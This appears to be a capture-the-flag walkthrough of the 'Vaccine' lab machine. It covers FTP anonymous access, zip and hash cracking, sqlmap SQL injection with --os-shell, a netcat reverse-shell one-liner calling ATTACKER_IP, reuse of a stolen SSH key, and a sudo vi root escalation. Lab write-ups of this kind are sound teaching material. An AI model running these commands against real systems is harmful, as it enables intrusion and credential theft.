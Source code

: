 # Vaccine

##### Difficulty: [ Very Easy ]

**Tags:** `Linux`,  `FTP`,  `SQL`,  `SUID`

---

##### Written: 26/12/2021

##### IP address: 10.129.48.65

---

### [ Besides SSH and HTTP, what other service is hosted on this box? ]

Let's begin with a basic **Nmap** scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 10.129.48.65
```

<img style="float: left;" src="screenshots/screenshot1.png">

From the results, we can see that **3** ports are open: **21 (FTP)**, **22 (SSH)** and **80 (HTTP)**

The other service being hosted: **FTP**

---

### [ This service can be configured to allow login with any password for specific username. What is that username? ]

FTP can be configured with **anonymous login**. This allows any user to log into the server without needing to provide a password, as long as they log in with the username 'anonymous'.

If we look at the nmap results, we can see that anonymous login has been enabled:

<img style="float: left;" src="screenshots/screenshot2.png">

<br>

Specific Username: **anonymous**

---

### [ What is the name of the file downloaded over this service? ]

Let's log into the FTP server with the username 'anonymous':

```
ftp 10.129.48.65
```

<img style="float: left;" src="screenshots/screenshot3.png">

There is a file called **backup.zip** in the server. 

---

### [ What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? ]

**zip2john**

---

### [ What is the password for the admin user on the website? ]

We can download **backup.zip** onto our local machine by using the `get` command.

After doing so, I tried to unzip it:

<img style="float: left;" src="screenshots/screenshot4.png">

Unfortunately, looks like we need a password.

To crack the password, we can use `zip2john` to convert the zip file into a format that is readable by `John the Ripper`. 

```
zip2john backup.zip > backup_to_crack
```

Next, we run `john` on it:

```
john backup_to_crack --wordlist=/usr/share/wordlists/rockyou.txt
```

<img style="float: left;" src="screenshots/screenshot5.png">

We now have the password to unzip the file - **741852963**

<br>

Let's unzip **backup.zip** now.

<img style="float: left;" src="screenshots/screenshot6.png">

We get 2 files: **index.php** and **style.css**

If we look at **index.php**, we can find the admin credentials for the HTTP website:

<img style="float: left;" src="screenshots/screenshot7.png">

The password is hashed, so let's use an online hash cracker to crack it. My go-to is www.hashes.com:

<img style="float: left;" src="screenshots/screenshot8.png">

The admin password is: **qwerty789**

---

### [ What option can be passed to sqlmap to try to get command execution via the sql injection? ]

**From the help menu of sqlmap:**

<img style="float: left;" src="screenshots/screenshot9.png">

Option: **--os-shell**

---

### [ What program can the postgres user run as root using sudo? ]

Visit the HTTP website running on port 80, we get a login page.

After logging in with credentials - **admin:qwerty789**, we are brought to the following dashboard:

<img style="float: left;" src="screenshots/screenshot10.png">

There doesn't seem to be much, although there is a table containing different car models. It's most likely that this table is connected to a backend database, which means that it could be susceptible to a SQL Injection. If we wish to carry out an SQLi attack, we need to first find an injectable point.

Let's try to search for something by using the search bar on the top-right.

<img style="float: left;" src="screenshots/screenshot11.png">

Looks like there is a `search` parameter being sent with the request. This could be our injection point!

Let's now run a `sqlmap` scan on this parameter to see if its injectable:

```
sqlmap -u http://10.129.48.65/dashboard.php?search= -p search --cookie="PHPSESSID=iah3il7p0qls36gkp52rguhj4a" --risk=3 --level=5 --os-shell --batch
```

Something important to note is that we need to supply the cookies that we were given after we had successfully logged in. This can be done with `--cookie`

We also specify that we want to target the `search` parameter by using the `-p` option.

Finally, we run `--os-shell` so that if we do manage to carry out an SQLi, we can open an interactive OS shell where we can run commands.

After the scan is done, we find out that `search` is vulnerable to many different types of injection payloads.

<img style="float: left;" src="screenshots/screenshot12.png">

Using those payloads, `sqlmap` then opens a shell for us:

<img style="float: left;" src="screenshots/screenshot13.png">

Nice, now that we can run commands, let's try to open a reverse shell. I'll be using the following payload from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot14.png">

And with that, we've successfully opened a reverse shell into the target machine!

<br>

Looking around the machine, I discovered that the home directory of the **postgres** user was in **/var/lib/postgresql**. There is a hidden directory called **.ssh** which actually contains the **private ssh key** of postgres:

<img style="float: left;" src="screenshots/screenshot16.png">

With this private key, let's go ahead and use it to log into postgres's account via ssh. This is so that we do not need to rely on the reverse shell as it is not very reliable and disconnects every few minutes. 

To do so, just copy the private key over to a file on our local machine, set the correct permissions (400 or 600) and we can then use it to log in:

<img style="float: left;" src="screenshots/screenshot17.png">

At this stage, we need to find out the password of the postgres user if we wish to find out his **sudo privileges**.

It took me a very long time of digging around the machine before I finally found the password in the **dashboard.php** file located at **/var/www/html**:

<img style="float: left;" src="screenshots/screenshot18.png">

postgres' password is: **P@s5w0rd!**

<br>

With that, we can check postgres' sudo privileges with `sudo -l`:

<img style="float: left;" src="screenshots/screenshot19.png">

From the results, we can see that postgres can run `vi` as root.

---

### [ Submit user flag ]

The user flag can be found in postgres' home directory, which is located at **/var/lib/postgresql**.

<img style="float: left;" src="screenshots/screenshot15.png">

---

### [ Submit root flag ]

Going back to postgres' sudo privileges, we can only run `vi` as root if we use it to open the **/etc/postgresql/11/main/pg_hba.conf** file.

This is fine as there is a way to spawn a shell while we are inside the text editor. 

First, we run `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. This will open the **pg_hba.conf** file in the text editor. Note that we are running `vi` as root right now.

<img style="float: left;" src="screenshots/screenshot20.png">

Next, we type the following command in `vi` to open a shell:

```
:!/bin/sh
```

<img style="float: left;" src="screenshots/screenshot21.png">

With that, we have opened a privileged shell as root! 

*(Privesc method is from: https://gtfobins.github.io/gtfobins/vi/)*

We can then obtain the root flag from **/root**:

<img style="float: left;" src="screenshots/screenshot22.png">
